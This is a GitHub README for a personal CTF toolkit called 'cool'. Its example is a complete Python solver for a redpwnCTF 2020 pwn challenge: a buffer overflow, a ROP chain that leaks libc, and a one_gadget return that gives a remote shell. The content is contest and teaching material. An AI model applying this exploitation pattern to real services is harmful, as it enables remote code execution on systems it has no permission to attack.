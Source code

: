# cool - CTF toolkit for me
[![CI](https://github.com/d2verb/ctftools/workflows/CI/badge.svg)](https://github.com/d2verb/ctftools/actions)
[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/d2verb/ctftools/blob/master/LICENSE)

## How to install
TODO

## Example
This is an example solver to solve the pwn challenge (the-library) in redpwnCTF 2020.

```python
from cool.pwn import elf, remote
from cool.util import p64, u64

e = elf("./tmp/the-library")
l = elf("./tmp/libc.so.6")
p = remote("2020.redpwnc.tf", 31350)

pop_rdi = 0x00400733
one_gadget_offset = 0x10A38C

pld = b"A" * 0x18
pld += p64(pop_rdi)
pld += p64(e.got["read"])
pld += p64(e.plt["puts"])
pld += p64(e.symbols["main"])

# libc base leak
p.sendafter(b"name?\n", pld)
p.recvuntil(b"Hello there: ")
libc_base = u64(p.recv()[29 : 29 + 6] + b"\x00\x00") - l.symbols["read"]
print(f"[*] libc base: 0x{libc_base:x}")

# execute main again & send one_gadget RCE address
one_gadget = one_gadget_offset + libc_base
pld = b"A" * 0x18
pld += p64(one_gadget)

p.sendline(pld)
p.interact()
```

## License
MIT License